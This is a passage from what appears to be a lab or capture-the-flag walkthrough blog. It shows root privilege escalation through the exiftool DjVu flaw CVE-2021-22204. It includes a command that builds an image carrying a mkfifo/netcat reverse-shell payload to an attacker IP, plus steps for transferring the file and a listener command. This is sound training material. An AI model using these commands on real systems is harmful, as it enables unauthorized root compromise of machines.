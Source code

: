 ```bash
```

![](https://i.imgur.com/etVRZMc.png)


Well, the vulnerability exists in step 7 where the `exiftool` version is vulnerable to an Arbitrary code execution due to Improper neutralization of user data in the `DjVu` file format, Known as `CVE-2021-22204`. You can download the exploit from [here](https://github.com/UNICORDev/exploit-CVE-2021-22204)


![](https://i.imgur.com/C2VBn3A.png)


Then create your reverse shell payload with it, although it is important you understand what each steps is doing, this tool does it directly for you, however if you want to learn how this is been created, refer to this [article](https://exploit-notes.hdks.org/exploit/linux/privilege-escalation/sudo/sudo-exiftool-privilege-escalation/)


```bash
python3 exploit-CVE-2021-22204.py -c 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 192.168.45.209 1337 >/tmp/f'
```



![](https://i.imgur.com/5ib5oWx.png)


Then on the target machine change directory to `IMAGES` variable created in the script and transfer the `imaje.jpg` file there


```bash
# Attacker-Machine
python3 -m http.server 80

# Target-Machine
cd /var/www/html/subrion/uploads
wget 192.168.45.209/image.jpg
```



![](https://i.imgur.com/fUV0T2b.png)


Real quick 🥶, Start up your listener and you should get a shell as user `root`


```bash
nc -lvnp 1337
```


![](https://i.imgur.com/J8cFhaR.png)


GG 😄

![](https://i.pinimg.com/originals/22/cc/d4/22ccd4b0bc4acb55cebb131cc9bd0d09.gif)


<button onclick="window.location.href='https://sec-fortress.github.io';">Back To Home螥</button>


